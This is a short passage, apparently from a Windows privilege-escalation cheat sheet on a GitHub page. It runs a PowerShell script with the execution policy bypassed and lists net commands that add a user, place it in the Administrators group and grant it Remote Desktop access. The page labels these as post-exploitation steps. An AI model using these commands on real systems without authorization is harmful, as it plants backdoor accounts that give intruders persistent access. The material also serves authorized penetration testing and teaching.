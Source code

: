 ### Execute runas.ps1
```
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -File runas.ps1
```


## User Operations (to be leveraged during Privilege Escalation)

### Adding a user to target system (requires admin access or execution via a Service)
```
net user [USER] [PASSWORD] /add
```

### Add a user to the Administrators group (requires admin access or execution via a Service)
```
net localgroup administrators [USER] /add
```

### Enable RDP access for a user (requires admin access or execution via a Service)
```
net localgroup "Remote Desktop Users" [USER] /add
```

